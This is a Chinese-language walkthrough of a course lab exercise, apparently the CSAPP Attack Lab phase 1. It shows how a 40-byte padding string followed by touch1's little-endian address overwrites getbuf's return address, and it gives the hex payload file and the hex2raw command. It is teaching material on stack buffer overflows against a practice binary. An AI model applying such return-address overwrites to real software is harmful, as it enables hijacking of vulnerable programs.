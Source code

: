 ![img](pics/v2-a45464593b0a88836261f409ddbcd620_720w.jpg)

这里在函数`getbuf`上4个字节保存了`0x00401976`正是函数`test`调用`getbuf`的下一行指令地址

![img](pics/v2-73482423c38f87d4ae59b781b09d159f_720w.png)

所以这个任务很容易，我们只需要通过输入字符串来修改返回地址的值，使其指向目标函数`touch1`的地址，我们知道函数`torch1`的地址为`4017c0`，所以我们可以首先输入40个字符将函数`getbuf`申请的局部空间填满，然后将`4017c0`拼接在后面，这样就能覆盖返回地址，使其指向函数`touch1`。

**注意：**这里是使用小端法，所以我们输入的地址要修改为`c0174000`，然后使用程序`hex2raw`将这个十六进制地址值转化为字符串形式。

我们可以创建一个文件`CI-L1.txt`来存放我们想要输入的字符串的十六进制，输入以下内容

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* the address of touch1 */
```

然后使用`./hex2raw < CI-L1.txt > CI-L1-raw.txt`将其转换为字符串形式，得到我们想要的输入

![img](pics/v2-8c911fe98bfcb53af51e237930b0df1b_720w.png)

然后就能完成这道题了
